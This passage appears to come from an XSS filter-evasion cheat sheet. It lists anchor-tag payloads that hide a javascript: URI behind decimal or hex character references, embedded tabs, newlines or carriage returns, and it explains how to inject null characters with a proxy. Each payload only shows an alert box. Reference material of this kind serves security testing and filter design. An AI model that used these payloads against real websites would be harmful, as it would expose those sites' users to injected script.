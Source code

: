 ```
    <a href="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">Click Me</a> 
```
 ### Hexadecimal HTML Character References Without Trailing Semicolons
 This attack is also viable against the filter for the string
`$tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/;`, because it assumes that there is a numeric character following the pound symbol - which is not
true with hex HTML characters: 
```
     <a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">Click Me</a>
```
 
### Embedded Tab 
This approach breaks up the XSS attack: 
```
      <a href="jav   ascript:alert('XSS');">Click Me</a>
```
 
### Embedded Encoded Tab 
This approach can also break up XSS: 
```
      <a href="jav&#x09;ascript:alert('XSS');">Click Me</a>
```
 
### Embedded Newline to Break Up XSS 
While some defenders claim that any of the chars 09-13 (decimal) will work for this attack, this is incorrect. Only 09 (horizontal tab), 10
(newline) and 13 (carriage return) work. Examine the [ASCII table](https://man7.org/linux/man-pages/man7/ascii.7.md) for
reference. The next four XSS attack examples illustrate this vector: 
```
     <a href="jav&#x0A;ascript:alert('XSS');">Click Me</a>
```
 
#### Example 1: Break Up XSS Attack with Embedded Carriage Return 
(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I\'ve seen filters that
assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):
 
```
    <a href="jav&#x0D;ascript:alert('XSS');">Click Me</a> 
```
 #### Example 2: Break Up JavaScript Directive with Null
 Null chars also work as XSS vectors but not like above, you need to
inject them directly using something like Burp Proxy or use `%00` in the URL string or if you want to write your own injection tool you can
either use vim (`^V^@` will produce a null) or the following program to generate it into a text file. The null char `%00` is much more useful
and helped me bypass certain real world filters with a variation on this example:
 